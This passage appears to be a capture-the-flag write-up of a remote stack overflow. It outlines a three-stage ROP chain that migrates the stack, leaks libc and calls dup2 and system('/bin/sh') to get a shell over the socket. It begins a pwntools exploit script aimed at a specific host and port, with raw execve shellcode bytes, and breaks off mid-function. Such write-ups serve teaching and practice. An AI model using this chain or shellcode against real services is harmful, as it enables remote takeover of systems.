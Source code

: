 We can use [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to find some useful gadgets, such as `pop rdi; ret` and `pop rsi; pop r15; ret` for setting the function parameters. Notice that although we can't find a gadget to control `rdx` (storing the 3rd function parameter), but since only `read` and `write` function need the third parameter, we can leverage the fact that **the program has already set the `rdx` for us in the main function** (for writing our output).  

So to sum it up:
1. Use objdump to get the port number, buffer location and reading size
2. Use ROPgadget to find some useful gadgets (for setting parameters & stack migration)
3. Overwrite the return address, notice that the socket fd should not be modified
4. First ROP chain: read the 2nd ROP chain to buffer1 and change the stack 
5. Second ROP chain: leak libc's base address, read the 3rd ROP chain to buffer2 and change the stack
6. Third ROP chain: do `dup2(6, 0)`, `dup2(6, 1)` and `system("/bin/sh")`
 
For finding the libc version, here's an useful tool: [libc database](https://github.com/niklasb/libc-database)

```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "52.20.10.244"
PORT = 8888
ELF_PATH = ""
LIBC_PATH = ""

# setting 
context.arch = 'amd64'
#context.arch = 'i386'
#context.arch = 'arm'
#context.arch = 'aarch64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
#elf = ELF(ELF_PATH)
#libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def sc(arch=context.arch):
    if arch == "i386":
        # shellcraft.i386.linux.sh(), null free, 22 bytes
        return "\x6a\x6a\x68\x68\x2f\x2f\x2f\x73\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x6a\x0e\x58\x48\x48\x48\x99\xcd\x80"
    elif arch == "amd64":
        # shellcraft.amd64.linux.sh(), null free, 24 bytes
        return "\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x31\xf6\x6a\x3b\x58\x99\x0f\x05"
    elif arch == "arm":
        # null free, 27 bytes
```